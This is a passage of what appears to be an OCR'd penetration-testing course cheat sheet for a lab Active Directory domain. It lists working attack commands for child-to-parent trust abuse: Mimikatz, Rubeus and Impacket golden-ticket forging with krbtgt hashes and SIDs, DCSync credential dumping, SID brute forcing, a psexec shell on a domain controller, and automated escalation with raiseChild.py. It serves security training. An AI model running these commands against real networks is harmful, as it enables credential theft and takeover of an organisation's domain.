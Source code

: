 | `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" \| select distinguishedname,objectsid`                                                                                                               | PowerView tool used to obtain the `Enterprise Admins` group's SID from a Windows-based host.                                                     |
| `ls \\academy-ea-dc01.inlanefreight.local\c$`                                                                                                                                                                                   | Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host.                          |
| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses `Mimikatz` to create a `Golden Ticket` from a Windows-based host .                                                                          |
| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`            | Uses `Rubeus` to create a `Golden Ticket` from a Windows-based host.                                                                             |
| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm`                                                                                                                                                                        | Uses `Mimikatz` to perform a DCSync attack from a Windows-based host.                                                                            |
| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`                                                                                                                      | Impacket tool used to perform a DCSync attack from a Linux-based host.                                                                           |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240`                                                                                                                                                       | Impacket tool used to perform a `SID Brute forcing` attack from a Linux-based host.                                                              |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 \| grep "Domain SID"`                                                                                                                                  | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host.                                                       |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 \| grep -B12 "Enterprise Admins"`                                                                                                                        | Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker`                | Impacket tool used to create a `Golden Ticket` from a Linux-based host.                                                                          |
| `export KRB5CCNAME=hacker.ccache`                                                                                                                                                                                               | Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host.                                                                       |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`                                                                                                          | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host.                                         |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`                                                                                                                                           | Impacket tool that automatically performs an attack that escalates from child to parent domain.                                                  |

## Trust Relationships - Cross-Forest

| Command                                                                                                        | Description                                                                                                                                    |
| -------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName`                                  | PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host.                                                     |
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof`           | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host.                                                             |